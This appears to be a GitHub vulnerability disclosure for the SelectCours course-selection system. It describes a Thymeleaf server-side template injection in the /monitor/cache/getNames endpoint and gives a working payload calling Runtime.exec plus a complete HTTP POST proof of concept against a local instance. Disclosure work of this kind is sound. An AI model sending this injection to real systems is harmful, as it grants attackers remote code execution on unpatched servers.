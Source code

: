# SelectCours-_Sever-side-Template-injection  
There is a serious vulnerability in the SelectCours  system. The Server Side Template Injection vulnerability may lead to sensitive information leakage, code execution, GetShell, and other issues.  
system URL:  
https://gitee.com/rahman/select-cours  
https://github.com/qinghongyou/selectcourse  
From the pom.xml file in the system, it can be found that the system is using a lower version of thymeleaf.  
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/84aa5890-6904-4678-8c60-292a41a27b8e)  
And found that the return is controllable in the/getNames interface.Therefore, there is a thymeleaf template injection vulnerability in the system.  
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/a6d346b9-c302-46af-8a0b-f45a9cf03552)  
Find the function point in the front-end page to capture and modify data.  
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/3a4fc8e7-85da-4413-864a-3a51b1ff0e21)  
payload:${T     (java.lang.Runtime).getRuntime().exec("calc.exe")}    
POC:  
POST /monitor/cache/getNames HTTP/1.1  
Host: 127.0.0.1:8899  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0  
Accept: */*  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
X-Requested-With: XMLHttpRequest  
Content-Length: 67  
Origin: http://127.0.0.1:8899  
Connection: close  
Referer: http://127.0.0.1:8899/monitor/cache  
Cookie: JSESSIONID=244ca31b-26cc-45cc-af03-cbda23de6f29  
Sec-Fetch-Dest: empty  
Sec-Fetch-Mode: cors  
Sec-Fetch-Site: same-origin  

fragment=${T     (java.lang.Runtime).getRuntime().exec("calc.exe")}  


When clicking to send a data packet, malicious code will be executed to start the computer.
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/19ac3c89-80c8-4c80-a44c-8805e346078f)  
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/85e85737-4804-4fe8-93bc-5519968d7524)  
Successful vulnerability verification








